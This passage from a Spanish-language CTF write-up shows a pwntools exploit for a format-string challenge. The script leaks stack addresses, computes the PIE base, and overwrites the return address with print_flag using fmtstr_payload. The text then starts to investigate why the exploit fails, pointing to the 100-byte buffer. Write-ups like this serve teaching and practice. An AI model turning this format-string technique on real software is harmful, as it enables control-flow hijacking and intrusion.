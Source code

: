 ```python
def main():
    r = conn()

    offset_input = 6
    
    offset_piebase = 0x1413 # Calculo del offset
    info(f'Offset PIE base: {hex(offset_piebase)}')

    r.sendlineafter(b':', b'%20$p %21$p') # Conseguimos el leak de la posición 20 y 21 de la pila

    leaked_line = r.recvline_contains(b':').decode().strip()
    
    leaked_return_address = int(leaked_line.split()[-2], 16) - 0x8 # Calculo de la dirección de retorno
    info(f'Leaked Return Address: {hex(leaked_return_address)}')
    leaked_stack_address = int(leaked_line.split()[-1], 16)
    info(f'Leaked Return Address: {hex(leaked_return_address)}')
    info(f'Leaked Stack Address: {hex(leaked_stack_address)}')

    base_binario = leaked_stack_address - offset_piebase # Calculo de la base del binario, leak de la dirección menos el offset calculado
    info(f'Base del binario: {hex(base_binario)} ({hex(leaked_stack_address)} - {hex(offset_piebase)})')
    exe.address = base_binario # Indicamos a pwntools cual es la dirección del binario (esto sirve para poder usar la función symbols aunque haya PIE)
    valor = {leaked_return_address: exe.symbols.print_flag} # Diccionario que contiene DIRECCIÓN VARIABLE A MODIFICAR: NUEVO VALOR
    payload = fmtstr_payload(offset_input, valor, write_size='byte')
    r.sendline(payload)
    r.sendline('exit')  
    r.interactive()


if __name__ == "__main__":
    main()

```

Al ejecutar el script veremos que aunque nos saca correctamente los datos con los `infos` no nos devuelve la FLAG. Porqué pasa esto?

Si volvemos a mirar el código del programa podemos ver como la variable `buf` , donde está nuestro input, tiene un máximo de 100 bytes:

```c
char buf[100];
```

Vamos a comprobar cuantos bytes ocupa nuestro payload añadiendo la siguiente linea al código:

```python
info(f'Longitud Payload: {len(payload)}')
```
